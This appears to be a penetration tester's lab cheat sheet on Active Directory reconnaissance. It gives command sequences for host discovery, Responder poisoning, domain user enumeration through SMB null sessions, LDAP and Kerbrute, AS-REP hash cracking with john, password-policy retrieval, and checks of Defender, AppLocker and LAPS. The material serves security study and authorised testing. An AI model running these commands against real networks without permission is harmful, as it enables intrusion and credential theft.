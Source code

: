 ```yaml
---

---
```

### Content
1. [Identifying Live Hosts](#identifying-live-hosts)
2. [Internal AD Username Enumeration](#internal-ad-username-enumeration)
3. [Enumerating & Retrieving Password Policies](#enumerating-&-retrieving-password-policies)
	1. [From Linux](#from-linux)
	2. [From Windows](#from-windows)
4. [Enumerating Security Controls](#enumerating-security-controls)
---
## Identifying Live Hosts

If we have a compromised host inside the domain, we can run `wireshark` or `tcpdump` to listen to the network
``` bash
$ sudo -E wireshark
$ sudo tcpdump -i <network_interface>
# Watch for MDNS and ARP packets

$ sudo responder -I <network_interface> -A

# Check live hosts
$ fping -asgq 172.16.5.0/23

# After creating a list from the live hosts from fping, scan them with nmap
$ sudo nmap -v -A -iL hosts.txt -oN output.txt
```
---
## Internal AD Username Enumeration
Gathering usernames list for the password spray can be done with several ways:
- Leverage `SMB NULL session` to retrieve a complete list of domain users from the domain controller.
- Leverage `LDAP anonymous bind` to query LDAP anonymously and pull down the domain user list.
- Use `Kerbrute` to validate users utilizing a word list
	- from a source such as the [statistically-likely-usernames](https://github.com/insidetrust/statistically-likely-usernames).
	- gathered by using a tool such as [linkedin2username](https://github.com/initstring/linkedin2username) to create a list of potentially valid user.
- Use `Responder` to conduct LLMNR,NBT-NS poisoning to obtain set of credentials.

``` bash
# Abuse SMB NULL session
$ enum4linux -U 172.16.5.5  | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"

$ rpcclient -U "" -N 172.16.5.5
rpcclient $> enumdomusers 
# Copy the output to a file, then clean the output to have only the usernames
$ cat rpc-output | cut -f2 -d "[" | cut -f1 -d "]" > clean-rpc-output

$ crackmapexec smb 172.16.5.5 --users

# Abuse LDAP Anonymous bind
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))"  | grep sAMAccountName: | cut -f2 -d" "

$ ./windapsearch.py --dc-ip 172.16.5.5 -u "" -U
```

#### Kerbrute
- [Kerbrute](https://github.com/ropnop/kerbrute) can be a stealthier option for domain account enumeration.
- Kerbrute sends a request for TGT ticket to the KDC without Kerberos Pre-Authentication to perform username enumeration.
	- If the KDC responded with the error PRINCIPAL UNKNOWN, the username is invalid.
	- If the KDC prompts for Kerberos Pre-Authentication, this signals that the username exists.
	- If the KDC responded with an AS-REP message, this signals that the user is vulnerable to AS-REP Roasting. 
- Using `jsmith.txt` or `jsmith2.txt` user lists from [Insidetrust](https://github.com/insidetrust/statistically-likely-usernames).

``` bash
$ sudo git clone https://github.com/ropnop/kerbrute.git
$ make help
$ make all
$ ./kerbrute_linux_amd64 userenum -d inlanefreight.local --dc 172.16.5.5 jsmith.txt > valid_ad_users
# To clean the output for further use:
$ awk '/VALID USERNAME:/ {split($NF,a,"@"); print a[1]}' valid_ad_users > clean
```

If a user has no pre auth required and Kerbrute extracted his krb5asrep, we can brute force his plain text password
``` Bash
# Add the hash to a file
$ cat > krb5asrep_file
# Crack it with john
$ john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5asrep krb5asrep_file
```


Using Kerbrute for username enumeration will generate event ID [4768: A Kerberos authentication ticket (TGT) was requested](https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4768). This will only be triggered if [Kerberos event logging](https://docs.microsoft.com/en-us/troubleshoot/windows-server/identity/enable-kerberos-event-logging) is enabled via Group Policy. Defenders can tune their SIEM tools to look for an influx of this event ID, which may indicate an attack.

There is also [linkedin2username](https://github.com/initstring/linkedin2username) to mash up possible usernames from a company's LinkedIn page.



---
## Enumerating & Retrieving Password Policies


> If you are on an internal machine but don’t have valid domain credentials, you can look for SMB NULL sessions or LDAP anonymous binds on Domain Controllers.
> If we have an SMB NULL session, LDAP anonymous bind, or a set of valid credentials, we can enumerate the password policy.
#### From Linux
``` bash
# Enumerating the Password Policy - Credentialed
$ crackmapexec smb <ip> -u username -p Password --pass-pol

# Enumerating the Password Policy - SMB NULL Sessions

# We can use rpcclient to check a Domain Controller for SMB NULL session access.
$ rpcclient -U "" -N <IP>
# Once connected, we can issue an RPC command such as querydominfo to obtain information about the domain and confirm NULL session access.
rpcclient $> querydominfo
# Obtaining the Password Policy using rpcclient
rpcclient $> getdompwinfo

# Using enum4linux and enum4linux-ng (a rewrite of enum4linux in Python with more features)
$ enum4linux -P 172.16.5.5
$ enum4linux-ng -P 172.16.5.5 -oA output.txt

# Enumerating the Password Policy - LDAP Anonymous Bind 
$ ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength
```

#### From Windows
``` powershell
# Enumerating SMB Null Session
# Establish a null session from a windows machine and confirm if we can perform more of this type of attack.
PS C:\> net use \\DC01\ipc$ "" /u:""
The command completed successfully.

# We can also use a username/password combination to attempt to connect.
PS C:\> net use \\DC01\ipc$ "password" /u:guest

# Enumerating the Password Policy - net.exe
PS C:\> net accounts

# Enumerating the Password Policy - PowerView.ps1
PS C:\> import-module .\PowerView.ps1
PS C:\> Get-DomainPolicy
```

---
## Enumerating Security Controls

Checking the Status of Defender with Get-MpComputerStatus
``` Powershell
# Check if RealTimeProtectionEnabled parameter is set to True, which means Defender is enabled on the system.
PS C:\> Get-MpComputerStatus
```

Using Get-AppLockerPolicy cmdlet we can see which applications or directories are whitelisted and blacklisted for users to use.
``` Powershell
PS C:\> Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections

PathConditions      : {%SYSTEM32%\WINDOWSPOWERSHELL\V1.0\POWERSHELL.EXE}
PathExceptions      : {}
PublisherExceptions : {}
HashExceptions      : {}
Id                  : 3d57af4a-6cf8-4e5b-acfc-c2c2956061fa
Name                : Block PowerShell
Description         : Blocks Domain Users from using PowerShell on workstations
UserOrGroupSid      : S-1-5-21-2974783224-3764228556-2640795941-513
Action              : Deny
```

PowerShell [Constrained Language Mode](https://devblogs.microsoft.com/powershell/powershell-constrained-language-mode/) locks down many of the features needed to use PowerShell effectively, such as blocking COM objects, only allowing approved .NET types, XAML-based workflows, PowerShell classes, and more.
``` Powershell
PS C:\> $ExecutionContext.SessionState.LanguageMode

ConstrainedLanguage
```

### LAPS
[Local Administrator Password Solution (LAPS)](https://www.microsoft.com/en-us/download/details.aspx?id=46899) is used to randomize and rotate local administrator passwords on Windows hosts and prevent lateral movement.

enumerate what domain users can read the LAPS password set for machines with LAPS installed and what machines do not have LAPS installed. 
The [LAPSToolkit](https://github.com/leoloobeek/LAPSToolkit) greatly facilitates this with several functions.
``` Powershell
# Enumerate the delegated groups which have access to LAPS passwords  
PS C:\> Find-LAPSDelegatedGroups
OrgUnit                                             Delegated Groups
-------                                             ----------------
OU=Servers,DC=DOMAIN,DC=LOCAL                DOMAIN\Domain Admins
OU=Servers,DC=DOMAIN,DC=LOCAL                DOMAIN\LAPS Admins
OU=Workstations,DC=DOMAIN,DC=LOCAL           DOMAIN\Domain Admins

# Check rights on each computer with LAPS enabled for any groups with read access and users with "All Extended Rights."
PS C:\htb> Find-AdmPwdExtendedRights
ComputerName                Identity                    Reason
------------                --------                    ------
EXCHG01.DOMAIN.LOCAL DOMAIN\Domain Admins Delegated
EXCHG01.DOMAIN.LOCAL DOMAIN\LAPS Admins   Delegated

# Search for computers that have LAPS enabled when passwords expire, and even the randomized passwords in cleartext if our user has access.
ComputerName                Password       Expiration
------------                --------       ----------
DC01.DOMAIN.LOCAL           6DZ[+A/[]19d$F 08/26/2020 23:29:45
EXCHG01.DOMAIN.LOCAL        oj+2A+[hHMMtj, 09/26/2020 00:51:30
```
---